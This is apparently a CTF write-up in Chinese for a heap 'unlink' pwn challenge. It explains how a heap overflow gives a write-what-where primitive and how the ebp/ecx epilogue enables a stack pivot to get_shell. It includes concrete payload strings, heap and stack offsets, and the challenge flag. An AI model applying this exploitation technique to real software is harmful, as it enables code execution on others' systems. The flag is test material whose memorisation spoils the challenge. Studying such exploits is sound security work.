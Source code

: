 ### unlink

这题模拟的堆溢出的题型，比实际中的少了很多保护，利用起来比较简单。

思路：堆溢出造成的 **有一定限制的任意地址写** ，具体写哪里，然后这个题有info leak，可以搞一下。

---

每个结构体是0x10大小，看一下堆结构

0x804b410:	0x0804b428(fd)	0x00000000   0x3636363636363636(input)  0x00000000	0x00000019
0x804b428:  0x0804b440(fd)	0x0804b410(bk)  0x00000000  0x00000000	0x00000000	0x00000019
0x804b428:  0xaaaaaaaa(fd)	0xbbbbbbbb(bk)  0x00000000  0x00000000	0x00000000	0x00000019
0x804b440:	0x00000000(fd)	0x0804b428(bk)	0x00000000	0x00000000  0x00000000	0x00000409

```
void unlink(OBJ* B){
	OBJ* BK;
	OBJ* FD;
	BK=B->bk;  BK = 0xbbbbbbbb
	FD=B->fd;  FD = 0xaaaaaaaa
	FD->bk=BK;  [0xaaaaaaaa+4] 写为 0xbbbbbbbb
	BK->fd=FD;  [0xbbbbbbbb] 写为 0xaaaaaaaa
}
```

---

这时候我有一个错误的思路，将栈地址上的main-ret写掉，有如下的exp

`print '6'*4*4 +'\xbc\xbc\xa1\xbf'+'\xeb\x84\x04\x08'`

将`addr(A)+0x28`写为`0x080484EB`

即0xaaaaaaaa = 0x0804866C; 0xbbbbbbbb = 0x080484EB;

然后发现不可以这么做，因为堆的地址每次都会变，gdb关掉了这个功能，所以需要重新弄一下

----

后来又想到一个问题，unlink是有两次写数据的，要让程序不崩掉，需要保证两处都是可以写的，上面我们的思路造成了两处写

```
stack[ret] = addr(get_shell)
addr(get_shell) = addr(stack[ret])
（省略offset）
```

get_shell在text段，显然不可以写入数据，此思路gg


只能写`fini_array`

使用这个命令`readelf -S unlink`
`[19] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4`

表示程序执行完了以后，跳到0x8048f0c

但还是之前的问题 addr(FINI_ARRAY) 与 addr(get_shell)的地址会相互写入对方的附近，显然text段是不可以写的

-----

**有写权限的段在IDA里ctrl+s是可以看的**

![pic0](pic0.png)

看来这题只能写栈和写堆，进行栈迁移，再使用ROP进行get_shell。

堆地址和栈地址均随机，好在这个题提供了这两个的位置。

1. 调用unlink的过程中，栈基本是不变的

		```
		push ebp
		mov ebp, esp
		xxx xxx
		leave  <---mov esp,ebp; pop ebp;
		retn
		```
	栈上存放的有【unlink-ebp, unlink-ret, main-ebp, main-ret】
	能控制的也只有unlink-ebp了，其他的感觉没啥大用

2. 一开始的思路是，先控制unlink-ebp，返回到main里ebp还在，在下一个leave的时候，即可写掉rsp。但是经过[Himyth](https://github.com/Himyth)指点，这个是不可用的，因为下文直接把rsp写掉了。并且给出了下一种思路。
3. 观察main函数，里面有一句push esp、pop esp类似的话，eip是从栈上拿的

		```
		mov ecx, esp
		push ecx
		xxx xxx
		call unlink <--- 控制ebp
		xxx xxx
		mov ecx, DWORD PTR [ebp-0x4] <--- 控制ecx = [ebp-4]
		leave <--- esp = ebp; pop ebp; <===不重要
		lea esp, [ecx-0x4] <--- main-ret 控制esp = ecx-4
		ret
		```
		我们可以将main-ret写掉，之后esp为我们写掉的数值，ret时候直接可以控制IP

-----

思路就用写掉esp的方法，从而在ret时候控制IP（即ROP）。之前思路错了那么多次也是惊呆了。

1. 计算offset

	stack:
		infoleak = 0xbfffef74;
		target = 0xbfffef58 <---target数值将来被写到ebp
		offset = -0x1C
	heap:
		infoleak = 0x804b410 <--addr(A)
		A->FD = base
		A->BK = base + 0x04
		input_string = base + 0x8
		B->FD = base + 0x18
		B->BK = base + 0x1C
		C->FD = base + 0x30
		D->BK = base + 0x34

2. 目标
		将stack_target写为堆上的的地址
		将堆布置好，将(ecx-4)写到堆上从而写到esp

3. 具体写入
		这里有一个注意的，我们写是从heap_base+8开始写的，不是从+0开始写的。
		[B->FD+4]被写为B->BK
		[B->BK]被写为B->FD
		**B->FD+4 == target**
		**B->BK == addr(x)** (x就是ebp被写入的值)
		`x, y` 需要满足的条件为在堆上
		**y == [x-4]** (mov ecx, [ebp-4])
		**esp == y-4** (mov esp, ecx-4)
		**[esp] = get_shell** (pop eip)
		==>
		令 x = heap_base + 0x50, y = heap_base + 0x54
		**B->FD = stack_infoleak - 0x1C - 4**
		**B->BK = heap_infoleak + 0x50**
		**[heap_base + 0x50 -8] = heap_infoleak + 0x58**
		**[heap_base + 0x50] = 0x080484ef**

4. 输入的string `'A'*4*4 + (stack_infoleak-0x20) + (heap_infoleak+0x50) + 'A'*0x2C + (heap_infoleak + 0x58) + 'AAAA' + addr(get_shell)`



flag
`conditional_write_what_where_from_unl1nk_explo1t`
